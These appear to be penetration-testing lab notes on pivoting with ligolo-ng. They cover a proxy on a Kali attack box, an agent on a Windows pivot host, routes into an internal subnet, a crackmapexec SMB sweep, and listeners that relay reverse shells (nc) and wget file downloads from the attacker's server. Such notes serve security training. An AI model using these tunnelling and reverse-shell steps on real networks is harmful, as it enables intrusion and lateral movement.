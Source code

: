 ```yaml
---
IP_KALI: 192.168.45.200
IP_TARGET: 192.168.115.75
NETWORK: 10.10.143.0/24
PORT: "11601"
---
```

- Agent: Executed on Pivot host
- Proxy: Executed on ATK box

Setup Proxy on kali:
```
sudo ip tuntap add user kali mode tun ligolo
```
```
sudo ip link set ligolo up
```
Execute proxy:
```
./proxy -selfcert
```

Setup agent on Windows:
- ~={green}.\agent.exe -connect <span id="IP_KALI"/>192.168.45.200<span type="end"/>:<span id="PORT"/>11601<span type="end"/> -ignore-cert=~

In ligolo proxy (Kali):
```
session
```
```
ifconfig
```

On Kali:
- sudo ip route add <span id="NETWORK"/>10.10.143.0/24<span type="end"/> dev ligolo
- Confirm:
	```
	ip route list
	```

In logolo proxy (Kali):
```
session
```
```
start
```

Confirm it is working:
- ~={green}crackmapexec smb <span id="NETWORK"/>10.10.143.0/24<span type="end"/>=~

Forwarding reverse shells and doing file transfers:
- Start tunnel as usual
- listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443 --tcp
- Start listener
	- rlwrap nc -nlvp 443
- Execute the reverse shell using the ~={red}INTERNAL IP=~ address of the agent, not the one that kali can see, the one that the ultimate victim can see
# Guide
Ligolo works easily and does the heavy lift - (sorry for long post, but would be nice so others can see it here, also will pin it)
 
1. MS01 has 10.10.123.148 as 2nd IP 
2. Kali IP is 192.168.45.203 
3. MS02 can't reach KALI , so needs to go through MS01 to reach Kali , right? 

Mindset : Let's say you want to download a file from your KALI like usual where you opened this -> ```python3 -m http.server 80```  !
You have opened server on 192.168.45.203:80   , but MS02 ONLY reaches MS01 , so you need to port forward . 
To make thing simple for myself I added a listener that does this port forwarding MS:80 to KALI:80 , looks like  this on session 1 (where MS01 is connected)-> ```listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp```  
How to reach Kali IP now to download something? On MS02 a command like this -> wget MS01:80 , and will redirect to KALI:80 .. 
In your care (just as an example, don't take it blindly copy paste), ```powershell wget http://10.10.123.148:80/test``` 
And that's it .. 

SAME goes for let's say a reverse shell .. add a new listener but with port 443 for example , and so on! 

IF that is not working either, consider you are ADMIN on the first pivot machine , you can play with that machine to do WATHEVER you need.. what do you think , adding a rule to have port 80 and 443 in exceptions could do the trick? Play around , and read about this again, and again. Took me 1 hour to play with this and understand the principle how it works .
Saved my day  -> https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5


How to Port Forwad all internal ports? ---> you connect to agent on port 11601 server , choose session, and in that session you start tunneling using the virtual network called whatever you chosed. After doing that add route 240.0.0.1 and that's all , every local port is forwarded to your Kali and you will use 240.0.0.1 to access the internal ports of that machine -> https://github.com/nicocha30/ligolo-ng/wiki/Localhost